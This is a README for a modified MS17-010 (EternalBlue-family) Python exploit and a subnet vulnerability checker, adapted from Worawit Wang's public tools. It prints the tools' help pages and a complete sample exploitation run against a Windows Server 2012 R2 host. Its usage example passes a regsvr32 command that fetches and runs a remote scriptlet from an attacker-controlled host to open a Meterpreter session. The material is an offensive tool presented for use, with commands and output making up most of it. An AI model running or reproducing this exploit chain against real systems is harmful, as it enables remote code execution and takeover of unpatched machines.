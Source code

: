 # MS17-010: Python
All credit goes to Worawit: 

[Worawit Wang: GitHub](https://github.com/worawit/MS17-010/)

[Worawit Wang: Twitter](https://twitter.com/sleepya_/)

Worawit Wang released a collection of Python exploits for MS17-010. These tools worked far more reliably than the Metasploit modules but didn't have much of a payload besides writing a pwned.txt to the C:/. However, Worawit Wang did add functionality for creating a service. 

Korey McKinley wrote an [article](https://lmgsecurity.com/manually-exploiting-ms17-010/) utilising that function to create a service which used regsvr32 to call back to Meterpreter and create a full Meterpreter connection. I'd never seen that path to exploitation, so I thought I'd modify zzz_exploit.py with Korey's logic and make the script more dynamic and user friendly. 

However, the module Korey used in that blog article was not available in my version of Metasploit. It is now called **web_delivery**. 

The zzz_exploit.py found in this repo is the same exploit logic. But it has been made more dynamic. It is now possible to pass user and password with the -u and -p, respectively. A command to write to a service is passed with the -c option and the target and pipe are -t and -p. 

Logger.py is just a script I've been reusing with all my code to prettify output. If deleted, zzz will break :)
ip_parser.py is just a script for parsing different IP/network formats. (192.168.0.0/24, 192.168.0.0-150, etc)

Here is the full help page output:
```
➜  MS17-010 git:(master) ✗ ./zzz_exploit.py --help                                                                                        
usage: zzz_exploit.py [-h] [-u] [-p] -t  [-c] [-P] [--version]

Tested versions:
1	Windows 2016 x64
2	Windows 10 Pro Vuild 10240 x64
3	Windows 2012 R2 x64
4	Windows 8.1 x64
5	Windows 2008 R2 SP1 x64
6	Windows 7 SP1 x64
7	Windows 2008 SP1 x64
8	Windows 2003 R2 SP2 x64
9	Windows XP SP2 x64
10	Windows 8.1 x86
11	Windows 7 SP1 x86
12	Windows 2008 SP1 x86
13	Windows 2003 SP2 x86
14	Windows XP SP3 x86
15	Windows 2000 SP4 x86

optional arguments:
  -h, --help        show this help message and exit
  -u , --user       Username to authenticate with
  -p , --password   Password for specified user
  -t , --target     Target for exploitation
  -c , --command    Command to add to service
  -P , --pipe       Pipe to connect to
  --version         show program's version number and exit
Example: python zzz_exploit -t 192.168.0.1-100 -c 'regsvr32 /s /n /u /i:http://192.168.0.1:9000/1EsrjpXH2pWdgd.sct scrobj.dll'
```

Sample output:
```
> # python zzz_exploit.py -t 10.10.11.53                                                                                                                                                     
[08:50:24]  [INFO]:     TARGET: 10.10.11.53
[08:50:24]  [ACTION]:   CONNECTING TO TARGET...
[08:50:24]  [ACTION]:   GETTING TARGET OS...
[08:50:24]  [INFO]:     TARGET OS: Windows Server 2012 R2 Datacenter 9600
[08:50:24]  [ACTION]:   GETTING PIPE...
[08:50:25]  [INFO]:     USING PIPE: spoolss
[08:50:25]  [INFO]:     TARGET ARCHITECTURE: 64 bit
[08:50:25]  [INFO]:     FRAG SIZE: 0x20
[08:50:25]  [INFO]:     GROOM_POOL_SIZE: 0x5030
[08:50:25]  [INFO]:     BRIDE_TRANS_SIZE: 0xf90
[08:50:25]  [ERROR]:    No transaction struct in leak data
[08:50:25]  [ERROR]:    LEAK FAILED! RETRYING...
[08:50:26]  [ERROR]:    No transaction struct in leak data
[08:50:26]  [ERROR]:    LEAK FAILED! RETRYING...
[08:50:26]  [ERROR]:    No transaction struct in leak data
[08:50:26]  [ERROR]:    LEAK FAILED! RETRYING...
[08:50:26]  [INFO]:     CONNECTION: 0xffffe001c6257910
[08:50:26]  [INFO]:     SESSION: 0xffffc000fab68150
[08:50:26]  [INFO]:     FLINK: 0xffffc000fafcd098
[08:50:26]  [INFO]:     InParam: 0xffffc000faf9116c
[08:50:26]  [INFO]:     MID: 0x3903
[08:50:26]  [ERROR]:    unexpected alignment, diff: 0x3b098
[08:50:26]  [ERROR]:    LEAK FAILED! RETRYING...
[08:50:27]  [INFO]:     CONNECTION: 0xffffe001c6257910
[08:50:27]  [INFO]:     SESSION: 0xffffc000fab68150
[08:50:27]  [INFO]:     FLINK: 0xffffc000fafd9098
[08:50:27]  [INFO]:     InParam: 0xffffc000fafd316c
[08:50:27]  [INFO]:     MID: 0x3a03
[08:50:27]  [SUCCESS]:  SUCCESS CONTROLLING GROOM TRANSACTION
[08:50:27]  [ACTION]:   MODIFYING TRANS1 STRUCT FOR READ/WRITE
[08:50:27]  [ACTION]:   CREATING SYSTEM SESSION TO SMB...
[08:50:28]  [ACTION]:   OVERWRITING SESSION SECURITY CONTEXT
[08:50:28]  [INFO]:     Writing command to service:
[08:50:28]  [ACTION]:   OPENING SVCManager ON 10.10.11.53...
[08:50:28]  [ACTION]:   CREATING SERVICE PKfJ...
[08:50:28]  [ACTION]:   STARTING SERVICE PKfJ...
[08:50:29]  [ERROR]:    SCMR SessionError: code: 0x41d - ERROR_SERVICE_REQUEST_TIMEOUT - The service did not respond to the start or control request in a timely fashion.                    
[08:50:29]  [ACTION]:   REMOVING SERVICE PKfJ...
[08:50:29]  [SUCCESS]:  FINISHED!
```
I wrote an article using Korey's payload and the new changes to the script, please see it [here](https://mez0.cc/posts/weaponised-worawit.html)


I made similar changes to checker.py, but the only additional logic I added was to be able to effectively run this script across a subnet. I imported the **netaddr** module and wrote a short for loop to run across the subnet.

Here is the help page for checker.py:

```
➜  MS17-010_WORAWIT git:(master) ✗ python checker.py --help         
usage: checker.py [-h] [-u] [-p] -t  [--version]

MS17-010 Checker script

optional arguments:
  -h, --help        show this help message and exit
  -u , --user       Username to authenticate with
  -p , --password   Password for specified user
  -t , --target     Target to check for MS17-010
  --version         show program's version number and exit

Example: python checker.py -t 192.168.0.1
```
Sample output:
```
> # python checker.py -t 10.10.11.53                                                                                                                                                         
[08:37:25]  [INFO]: 	CONNECTED TO 10.10.11.53
[08:37:25]  [INFO]: 	TARGET OS: Windows Server 2012 R2 Datacenter 9600
[08:37:25]  [SUCCESS]: 	10.10.11.53 IS NOT PATCHED!
[08:37:25]  [ACTION]: 	CHECKING NAMED PIPES...
[08:37:25]  [SUCCESS]: 	spoolss: OK (64 bit)
[08:37:26]  [SUCCESS]: 	samr: OK (64 bit)
[08:37:26]  [SUCCESS]: 	netlogon: OK (64 bit)
[08:37:26]  [SUCCESS]: 	lsarpc: OK (64 bit)
[08:37:26]  [ERROR]: 	browser: STATUS_OBJECT_NAME_NOT_FOUND

```

Any further ideas, changes or fixes; please let me know!
